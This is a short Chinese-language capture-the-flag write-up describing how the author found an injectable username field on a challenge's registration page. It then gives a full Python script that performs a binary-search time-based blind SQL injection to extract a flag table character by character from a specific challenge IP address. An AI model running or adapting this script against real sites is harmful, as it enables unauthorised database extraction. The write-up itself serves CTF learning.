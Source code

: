 发现注册页

![](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251001152927560.png)

注入username字段成功

![](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251001152927561.png)

编写二分时间盲注脚本

```python
import requests
import time

url = "http://61.147.171.35:65370/register.php"
data = {
    'email': 'spark@panic404.cn',
    'username': '',
    'password': '1'
}

def inject_post():
    result=""
    s = requests.Session()
    
    # 二分搜索
    for i in range(1,1000):
        # 可打印字符范围
        low=32
        high=128
        mid=(low+high)//2

        while low<high:
            payload=f"0'+(CASE WHEN ascii(substr((select * from flag) from {i} for 1))<{mid} THEN sleep(1) ELSE 1 END)+'0"
            data['username'] = payload
            data['email'] = f"{i}_{mid}@b.com"
  
            start_time=time.time()
            s.post(url=url,data=data,verify=False,allow_redirects=False) # 不跟随重定向
            end_time=time.time()

            if end_time-start_time>1:
                high=mid
            else:
                low=mid+1
            mid=(low+high)//2
            
        if mid<33 or mid>127:
            break
        result += chr(mid-1)
        print(result)

inject_post()
```

输出

![](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251001152927562.png)

<p style="text-align: right;">
by. Spark0618
</p>
